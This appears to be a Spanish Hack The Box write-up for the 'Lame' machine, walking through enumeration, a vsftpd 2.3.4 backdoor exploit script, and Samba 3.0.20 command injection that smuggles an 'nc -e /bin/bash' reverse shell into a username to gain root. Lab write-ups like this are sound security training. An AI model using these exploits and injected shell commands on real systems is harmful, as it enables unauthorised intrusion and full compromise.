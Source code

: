 ```yaml
---
layout: post
title: HTB_Lame.md
date: 2023/07/10
---
```


# Lame {-}

## Introduccion {-}

La maquina del dia 20/08/2021 se llama Lame.

El replay del live se puede ver aqui

[![S4vitaar Lame maquina](https://img.youtube.com/vi/MNJi4k9uNKQ/0.jpg)](https://www.youtube.com/watch?v=MNJi4k9uNKQ)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.3
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.3
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p21,22,139,445,3632 10.10.10.3 -oN targeted
```


| Puerto | Servicio | Que se nos occure?          | Que falta?           |
| ------ | -------- | --------------------------- | -------------------- |
| 21     | ftp      | Conexion como Anonymous     |                      |
| 22     | ssh      | Conneccion directa          | usuario y contraseña |
| 139    | smbd     | Conneccion con Null session |                      |
| 445    | smbd     | Conneccion con Null session |                      |
| 3632   | distccd  | Web, Fuzzing                |                      |



### Conexion Anonymous con ftp {-}

```bash
ftp 10.10.10.3

Name: anonymous
Password: 

Login successful

ls
```

Podemos connectar como anonymous pero no nos reporta nada. El resultado de nmap nos da que el vsftpd es de version 2.3.4.


## Vulnerability Assessment {-}

### vsftpd 2.3.4 {-}

Miramos si existe un exploit para este servicio.

```bash
searchsploit vsftpd 2.3.4
```

Vemos que hay una vulnerabilidad y que existe un exploit. Como el exploit es une exploit Metasploit, vamos buscando por
la web si existe otro exploit y la encontramos en [cherrera0001 github](https://github.com/cherrera0001/vsftpd_2.3.4_Exploit).

```python
#!/usr/bin/python3
from pwn import log,remote
from sys import argv,exit
from time import sleep

if len(argv) < 2:
    exit(f'Usage: {argv[0]} Target_IP')


p = log.progress("Running")
vsftpd = remote(argv[1], 21)

p.status('Checking Version')
recv = vsftpd.recvuntil(")",timeout=5)
version = (recv.decode()).split(" ")[2].replace(")","")
if version != '2.3.4':
	exit('2.3.4 Version Not Found')

vsftpd.sendline('USER hii:)')
vsftpd.sendline('PASS hello')
p.status('Backdoor Activated')

sleep(3)

backdoor = remote(argv[1], 6200)
p.success("Got Shell!!!")
backdoor.interactive()
```

Si lanzamos el script no funcciona, parece ser que la version a sido parcheada -> rabbithole. 

### SAMBA 3.0.20 {-}

```bash
searchsploit samba 3.0.20
```

Vemos que hay un exploit para Metasploit que permite ejecutar commandos. Examinamos el script con el commando `searchsploit -x 16320` y vemos
que podemos injectar commandos desde el nombre de usuario con el formato siguiente

```ruby
username = "/=`nohup " + payload.encoded + "`"
```

Vamos a por pruebas

1. Nos ponemos en escucha de trazas ICMP

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. Intentamos enviar commandos siguiendo la guia del script

    ```bash
    smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"
    smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c "dir"
    smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1"
    smb: \> logon "/='nohup ping -c 1 10.10.14.7'"
    ```

Vemos que esto functionna perfectamente. Vamos a ganar accesso al systema.
## Vuln exploit & Gaining Access {-}

### Ganando accesso desde la vulnerabilidad SAMBA 3.0.20 {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Intentamos enviar commandos siguiendo la guia del script

    ```bash
    smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.7 443`"'
    ```

Hemos ganado accesso al systema.


### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Dandole a `whoami` vemos que ya estamos root ;) No se necessita escalar privilegios en este caso.

